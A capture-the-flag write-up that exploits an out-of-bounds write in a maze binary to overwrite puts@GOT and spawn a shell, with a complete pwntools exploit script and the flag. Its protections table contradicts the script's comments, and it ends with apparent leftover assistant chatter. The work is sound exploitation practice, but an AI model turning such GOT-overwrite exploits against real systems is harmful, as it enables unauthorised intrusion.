 # aMAZEing - Writeup

---

## Challenge Overview

**aMAZEing** is a binary maze game challenge where logic, memory, and vulnerability exploitation come together. The objective is to escape the maze — not through solving it, but by exploiting a flaw in its internal logic.

---

## Binary Details

```bash
$ file maze

```

![Alt text](img/1.png)

```bash
$ checksec maze
```

![Alt text](img/2.png)

### Security Summary

| Protection   | Status  |
| ------------ | ------- |
| RELRO        | Partial |
| Stack Canary | Yes     |
| NX           | Enabled |
| PIE          | Enabled |

---

## Vulnerability Analysis

The program allows the player to configure "coordinates" and "slot values" in the maze. Internally, the game logic uses a buffer called `maze_escape[]`, and inputs are used directly as indices without bounds checks.

```c
scanf("%d", &coordinates);
scanf("%d", &slot);
maze_escape[coordinates] = slot;
```

### Vulnerability: Out-of-Bounds Write

- There is no bounds check on the `coordinates` variable.
- This allows writing to memory beyond the intended array `maze_escape[]`.
- Specifically, it enables overwriting entries in the Global Offset Table (GOT), such as `puts@GOT`.
- By overwriting a GOT entry with the address of the `escape()` function, control flow is redirected to spawn a shell.

---

## Exploitation Plan

1. **Leak the PIE base address**: At startup, the binary prints the runtime address of `main()`, which can be used to calculate the full base address.
2. **Calculate offset to GOT**: Determine how far `puts@GOT` is from `maze_escape[]` in memory.
3. **Overwrite GOT entry**: Use the out-of-bounds vulnerability to overwrite the `puts@GOT` entry with the address of the `escape()` function.
4. **Trigger puts()**: The program will now call `escape()` instead, which executes `system("/bin/sh")`.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'maze')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

#io = start()
io = remote('localhost',1337)

# --------[BINARY BASE ADDRESS]---------

io.recvuntil(b'The maze begins at this location, your journey starts here @')
leak = io.recvline().strip()
main_addr = int(leak,16)

exe.address = main_addr - exe.sym['main']



offset=(exe.got['puts']-exe.sym['maze_escape'])/4
io.recvuntil(b'Configure coordinates (0 >=) : ')
io.sendline(b'%i' %offset)
io.recvuntil(b'Set slot value (10 >=) : ')
io.sendline(b"%i" %exe.sym['escape'])

io.interactive()

```

---

## Result

The overwritten GOT entry causes the program to call `escape()`, which executes:

```c
system("/bin/sh");
```

A shell is spawned, granting access to the system and allowing flag retrieval.

---

## Flag

```
flag{l0st_1n_th3_4m4z3_w1th_r34l_sh3ll}
```

---

Let me know if you'd like to generate a Markdown version, convert it to PDF, or integrate it into a CTF platform format.
